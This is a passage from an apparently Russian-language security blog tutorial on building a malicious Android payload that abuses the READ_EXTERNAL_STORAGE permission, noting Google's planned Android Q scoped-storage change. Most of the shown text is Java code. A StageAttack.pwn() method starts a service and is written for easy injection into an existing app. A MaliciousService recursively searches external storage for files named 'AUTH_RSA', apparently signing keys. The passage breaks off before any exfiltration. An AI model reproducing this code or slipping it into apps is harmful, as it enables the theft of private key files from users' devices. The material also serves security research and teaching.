 Google в курсе проблемы и [собирается изменить](https://developer.android.com/preview/privacy/scoped-storage?hl=ru) READ_EXTERNAL_STORAGE в Android Q. Цитата:

> In order to access any other file that another app has created, including files in a "downloads" directory, your app must use the Storage Access Framework, which allows the user to select a specific file. 

## Создаем payload

Перейдем к основному функционалу сканера. Он будет состоять из трех основных классов: ```StageAttack```, ```MaliciousService```, ```MaliciousTaskManager```. 

![img](assets\images\sign_scan\prj_struct.png)

```StageAttack``` - состоит из одного статического метода, который начинает нашу атаку. Мы специально создаем переходный статический метод, для удобства внедрения в готовый класс.

{% highlight java %}
public class StageAttack {

    public static void pwn(Context ctx) {
        Intent intent = new Intent(ctx,  MaliciousService.class);
        ctx.startService(intent);
    }
}

{% endhighlight %}

```MaliciousService``` - сервис, который рекурсивно осуществляет поиск по всему external storage.

{% highlight java %}
private String pwn2(File dir) {

	String path = null;
	File[] list = dir.listFiles();

    for (File f : list) {

	    if (f.isDirectory()) {
		path = pwn2(f);
		if (path != null)
		    return path;
	    } else {
		path = f.getAbsolutePath();
		if (path.contains("AUTH_RSA")) {
		    Log.d(TAG, "AUTH_RSA found here - " + path);
		    return path;
		}
	    }
    }
    return null;
}
```